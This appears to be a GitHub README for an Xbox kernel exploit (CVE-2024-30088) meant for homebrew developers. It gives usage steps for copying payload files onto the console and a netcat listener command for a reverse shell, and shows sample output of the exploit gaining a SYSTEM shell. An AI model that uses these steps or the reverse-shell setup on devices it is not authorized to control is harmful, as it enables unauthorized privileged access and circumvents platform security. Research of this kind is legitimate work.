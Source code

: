 # Collateral Damage
Collateral Damage is a kernel exploit for Xbox SystemOS using [CVE-2024-30088](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-30088).
It targets Xbox One and Xbox Series consoles running kernel versions 25398.4478, 25398.4908, and 25398.4909. The initial entrypoint is via the Game Script UWP application.

This exploit was developed by [Emma Kirkpatrick](https://x.com/carrot_c4k3) (vulnerability discovery & exploitation) and [Lander Brandt](https://x.com/landaire) ([PE loader](https://github.com/exploits-forsale/solstice) development)

## Important Caveats
This initial release is largely intended for developers. Currently a way to place files into the `LocalState` directory of Game Script is required via an app such as [Adv File Explorer (FullTrust)](https://apps.microsoft.com/detail/9nbnjpsxfsqb). 
This is due to the requirement of placing the `stage2.bin` and `run.exe` files onto into the `LocalState` directory. In the near future a payload will be supplied which will load those files over the network, so the initial payload will simply be 
a script which can be inputted via a USB keyboard emulator.

The reverse shell example provided here requires that your console is connected to a network. When connecting your console to a network be very careful to avoid connecting to the internet and updating. Try to block connectivity to Xbox LIVE as 
much as possible, at the very least by setting your DNS to invalid servers.

## Usage
- Modify line 7 of `gamescript_autosave.txt` to contain the local IP of your PC.
- Copy `gamescript_autosave.txt`, `stage2.bin`, and `run.exe` to the `LocalState` directory of the Game Script application on your Console (`Q:\Users\UserMgr0\AppData\Local\Packages\27878ConstantineTarasenko.458004FD2C47C_c8b3w9r5va522\LocalState\`)
- Listen on port 7070 on your PC using netcat or a similar tool (command example: `nc64.exe -lvnp 7070`)
- Open the Game Script application on your console and select "Show Code Run window" and click "Run code once"
- If the exploit is success you should see output on your PC that resembles the following:
```
listening on [any] 7070 ...
connect to [192.168.0.61] from (UNKNOWN) [192.168.0.130] 49665
Collateral Damage - @carrot_c4k3 & @landaire (exploits.forsale)
Build number: 25398.4478
Attempting to find kernel base...
Found likely kernel base: FFFFF80AF9800000
Attempting exploit...
Exploit succeeded! Running payload!

Microsoft Windows [Version 10.0.25398.4478]
Copyright (c) Microsoft Corporation. All rights reserved.

S:\>
```

## Experimentation
Lots of additional work is needed to bring this to the point of being a user-friendly tool for loading homebrew onto the Xbox, but I hope that this provides a good starting point :) If you would like to play around with running code as SYSTEM you can put your code in the `post_exploit` function in `post_exploit.c`.

## Further Work
There is lots more to do on this, but as the kernel part is done I wanted to share it with the community so developers could start poking around with SYSTEM privileges. Here are a few things that I am still hoping to add in the future:
- Side loading support
- Unsigned non-UWP process launching
- SSH support

Additional ideas are welcome :)

## Thanks
thank you to everyone who helped me brainstorm and shared their knowledge and time with me throughout this!!! some of those who i would like to show appreciation to:

- chompie
- tuxuser
- baw
- [Xbox One Research](https://xboxoneresearch.github.io/)
- XBOX-SCENE Discord